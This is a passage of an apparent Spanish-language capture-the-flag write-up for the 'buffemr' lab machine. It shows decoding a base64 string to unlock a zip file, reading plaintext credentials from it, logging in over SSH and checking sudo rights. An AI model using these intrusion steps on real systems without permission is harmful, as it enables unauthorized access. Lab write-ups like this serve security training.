 Encuentro una cadena de texto que parece ser la contraseña de algun pdf.
Veo claramente que estad codificada en base64  asi que la descodifico.

```bash
$ echo 'c2FuM25jcnlwdDNkCg==' | base64 -d
san3ncrypt3d
```

Parece ser que **san3ncrypt3d** es una contraseña para algun archivo. Intento descomprimir el archivo **user.zip** con esta contraseña pero es incorrecta.

Intento descomprimir el archivo pero con la cadena de texto codificada en base64 y bingo, es correcta

```bash
$ unzip user.zip
Archive:  user.zip
[user.zip] user.lst password: c2FuM25jcnlwdDNkCg==
  inflating: user.lst

$ cat user.lst
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: user.lst
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ This file contain senstive information, therefore, should be always encrypted at rest.
   2   │ 
   3   │ buffemr - Iamgr00t
   4   │ 
   5   │ ****** Only I can SSH in ************
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────
```

El archivo **user.lst** contiene credenciales validas para convertirse en el usuario **buffemr** 

# LATERAL MOVEMENT

Me conecto a la maquina victima como el usuario **buffemr** por ssh

```bash
ssh buffemr@192.168.0.219
buffemr@192.168.0.219's password: Iamgr00t

buffemr@buffemr:~$

```

## Sudo

Pruevo a convertirme en el usuario **root** y como no puedo veo que puedo ejecutar como root.

```bash
buffemr@buffemr:~$ sudo su
[sudo] password for buffemr:Iamgr00t
buffemr is not in the sudoers file.  This incident will be reported.
buffemr@buffemr:~$ sudo -l
[sudo] password for buffemr:Iamgr00t
Sorry, user buffemr may not run sudo on buffemr.
```
